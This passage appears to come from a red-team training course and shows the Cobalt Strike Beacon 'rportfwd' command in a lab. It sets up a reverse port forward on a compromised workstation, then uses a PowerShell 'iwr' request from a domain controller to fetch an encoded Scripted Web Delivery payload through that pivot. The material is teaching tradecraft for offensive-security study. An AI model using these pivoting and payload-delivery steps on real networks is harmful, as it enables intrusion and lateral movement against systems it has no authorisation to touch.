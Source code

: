   

The syntax for the `rportfwd` command is `rportfwd [bind port] [forward host] [forward port]`. On WKSTN-1:

```
beacon> rportfwd 8080 10.10.5.120 80
[+] started reverse port forward on 8080 to 10.10.5.120:80
```

  

This will bind port **8080** on the foothold machine, which we can see with **netstat**.

```shell
beacon> run netstat -anp tcp

Active Connections

  Proto  Local Address          Foreign Address        State
  TCP    0.0.0.0:8080           0.0.0.0:0              LISTENING
```

  

Now any traffic hitting this port will be redirected to **10.10.5.120** on port **80**. On DC-2, instead of trying to hit **10.10.5.120:80**, we use **10.10.17.231:8080** (where 10.10.17.231 is the IP address of WKSTN-1).

```powershell
PS C:\> iwr -Uri http://10.10.17.231:8080/a

StatusCode        : 200
StatusDescription : OK
Content           : $s=New-Object IO.MemoryStream(,[Convert]::FromBase64String("H4sIAAAAAAAAAOy9Wa/qSrIu+rzrV8yHLa21xNo
                    1wIAxR9rSNTYY444eTJ1SyRjjBtw3YM49//1GZBoGY865VtXW1rkPV3dKUwyMnU1kNF9EZoRXTvEfqyLz7UKLT863/9g6We7H0T
                    fm...
```

  

The Web Log in Cobalt Strike also lets us know the request has reached us.

```bash
07/09 16:17:24 visit (port 80) from: 10.10.5.120
	Request: GET /a
	page Scripted Web Delivery (powershell)
	Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.3866
```

  

This is a contrived demo, but we'll see practical examples of using this in modules such as **Group Policy** and **MS SQL Servers**.

To stop the reverse port forward, do `rportfwd stop 8080` from within the Beacon or click the **Stop** button in the **Proxy Pivots** view.

Aspects to note:
